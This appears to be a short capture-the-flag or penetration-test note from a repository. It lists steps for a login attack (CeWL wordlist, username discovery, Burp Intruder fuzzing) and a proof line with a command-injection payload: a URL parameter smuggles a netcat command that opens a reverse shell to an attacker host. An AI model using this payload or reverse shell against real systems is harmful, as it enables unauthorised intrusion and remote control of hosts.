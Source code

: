 local.txt
```path
> Cewl to Get password List

>> Find Usernames on website

>>> Burp Intruder Sniper Attack to fuzz

>>>> Login

```

proof.txt
```bash
> LCE at sys_info=-h&sys_tracks=%2Fvar%2Ftmp%2Ftracks%2F;/bin/nc 192.168.45.233 1337 -e /bin/bash
```